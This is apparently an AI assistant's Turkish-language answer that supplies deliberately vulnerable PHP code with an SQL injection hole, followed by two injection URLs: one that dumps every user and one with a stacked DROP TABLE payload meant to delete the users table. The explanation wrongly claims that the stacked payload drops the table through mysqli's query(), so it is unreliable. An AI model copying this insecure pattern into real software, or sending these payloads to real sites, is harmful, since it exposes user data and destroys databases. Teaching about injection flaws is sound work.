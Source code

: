 Tabii! Aşağıda, **SQL Injection** açığı içeren **ham (raw) PHP kodunu** paylaşıyorum. Bu kod, hiçbir güvenlik önlemi alınmadan kullanıcıdan gelen veriyi doğrudan SQL sorgusuna ekliyor.

---

### **SQL Injection Açığı İçeren Ham PHP Kodu**
```php
<?php
// Veritabanı bağlantısı
$conn = new mysqli("localhost", "kullanici", "sifre", "veritabani");

// Bağlantı kontrolü
if ($conn->connect_error) {
    die("Bağlantı başarısız: " . $conn->connect_error);
}

// Kullanıcıdan gelen 'id' parametresini al
$id = $_GET['id'];

// SQL Injection açığı var! Kullanıcı girdisi direkt sorguya ekleniyor
$sql = "SELECT * FROM users WHERE id = '$id'";

$result = $conn->query($sql);

// Sonuçları ekrana yazdır
if ($result->num_rows > 0) {
    while ($row = $result->fetch_assoc()) {
        echo "Kullanıcı Adı: " . $row["username"] . "<br>";
    }
} else {
    echo "Kullanıcı bulunamadı.";
}

$conn->close();
?>
```

---

### **SQL Injection Açığı Nasıl Kullanılır?**
Bu sayfanın URL’sine şu şekilde bir istek yapılırsa:
```
http://example.com/user.php?id=1' OR '1'='1
```
Sunucuda şu SQL sorgusu çalışır:
```sql
SELECT * FROM users WHERE id = '1' OR '1'='1'
```
Bu sorgu her zaman **true** döneceği için **tüm kullanıcılar listelenir!**

---

### **SQLi ile Veritabanını Silme Örneği**
Şu URL çağrıldığında:
```
http://example.com/user.php?id=1'; DROP TABLE users; --
```
Çalışan SQL sorgusu şu olur:
```sql
SELECT * FROM users WHERE id = '1'; DROP TABLE users; --'
```
Bu da **"users"** tablosunun tamamen silinmesine neden olur! 😱

---

Bu kod tamamen **savunmasızdır** ve **gerçek projelerde asla kullanılmamalıdır**. Eğer SQL Injection açığını engellemek istiyorsan **Prepared Statements** veya ORM kullanmalısın. İstersen güvenli versiyonunu da paylaşabilirim. 😃